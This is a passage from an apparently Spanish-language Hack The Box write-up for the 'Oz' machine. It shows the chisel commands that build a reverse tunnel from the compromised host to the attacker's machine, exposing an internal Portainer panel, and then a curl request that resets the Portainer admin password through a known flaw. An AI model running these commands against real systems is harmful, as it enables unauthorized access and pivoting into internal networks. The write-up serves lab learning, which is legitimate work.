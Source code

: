 Subo el ```chisel``` a la máquina para traer el puerto 9000 a mi equipo

```null
dorthi@oz:~$ ./chisel client 10.10.16.7:1234 R:9000:172.17.0.2:9000 &>/dev/null & disown
```

De mi lado creo el servidor

```null
chisel server -p 1234 --reverse
```

Ahora puedo acceder a un panel de inicio de sesión

<img src="/writeups/assets/img/Oz-htb/7.png" alt="">

Esta versión tiene una [vulnerabilidad](https://github.com/portainer/portainer/issues/493) que permite modificar la contraseña

```null
curl -s -X POST "http://localhost:9000/api/users/admin/init" -H "Content-Type: application/json" -d '{"password":"pwned"}'
```

<img src="/writeups/assets/img/Oz-htb/8.png" alt="">
